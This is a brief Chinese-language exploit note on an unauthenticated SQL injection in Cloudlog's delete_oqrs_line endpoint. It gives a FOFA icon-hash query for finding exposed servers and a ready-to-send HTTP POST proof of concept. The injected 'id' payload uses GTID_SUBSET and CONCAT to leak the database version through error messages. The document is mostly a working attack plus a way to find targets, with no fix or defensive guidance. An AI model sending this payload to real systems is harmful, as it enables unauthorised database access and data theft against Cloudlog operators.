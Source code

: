 # Cloudlog系统接口delete_oqrs_line未授权SQL注入漏洞

Cloudlog系统接口delete_oqrs_line未授权SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
icon_hash="-460032467"
```

## poc

```javascript
POST /index.php/oqrs/delete_oqrs_line HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

id=GTID_SUBSET(CONCAT((MID((IFNULL(CAST(VERSION() AS NCHAR),0x20)),1,190))),666)
```

![image-20241018155043747](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181550829.png)